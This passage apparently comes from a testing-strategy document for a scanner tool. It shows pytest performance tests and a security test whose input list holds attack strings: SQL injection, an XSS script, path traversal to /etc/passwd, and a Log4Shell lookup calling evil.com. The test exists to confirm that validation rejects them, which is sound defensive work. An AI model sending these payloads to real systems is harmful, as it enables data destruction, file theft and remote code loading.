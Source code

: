 ```python
# Example performance test
class TestScannerPerformance:
    @pytest.mark.performance
    def test_scan_duration_benchmark(self, benchmark, mock_fast_agent):
        scanner = RadarScanner()
        
        def scan_operation():
            return asyncio.run(scanner.scan_agent(mock_fast_agent))
        
        result = benchmark(scan_operation)
        assert result.duration < 5.0  # 5 second SLA
    
    @pytest.mark.load_test
    async def test_concurrent_scan_performance(self):
        # Test with 50 concurrent scans
        tasks = [scanner.scan_agent(agents[i % len(agents)]) 
                for i in range(50)]
        
        start_time = time.time()
        results = await asyncio.gather(*tasks)
        duration = time.time() - start_time
        
        assert duration < 30.0  # 30 second SLA for 50 scans
        assert all(r.status == "completed" for r in results)
```

#### 4. Security Testing Layer
- **Scope**: Vulnerability assessment, penetration testing, security validation
- **Tools**: bandit, semgrep, custom security test harnesses
- **Focus**: Input validation, injection prevention, access control

```python
# Example security test
class TestSecurityValidation:
    @pytest.mark.security
    def test_input_sanitization(self):
        """Test that malicious inputs are properly sanitized."""
        malicious_inputs = [
            "'; DROP TABLE scans; --",
            "<script>alert('xss')</script>",
            "../../../../etc/passwd",
            "${jndi:ldap://evil.com/a}"
        ]
        
        for malicious_input in malicious_inputs:
            with pytest.raises(ValidationError):
                validate_scan_input(malicious_input)
    
    @pytest.mark.security
    async def test_api_authentication_required(self, client):
        """Test that API endpoints require authentication."""
        response = await client.post("/api/v1/scan", json={"agent": "test"})
        assert response.status_code == 401
```
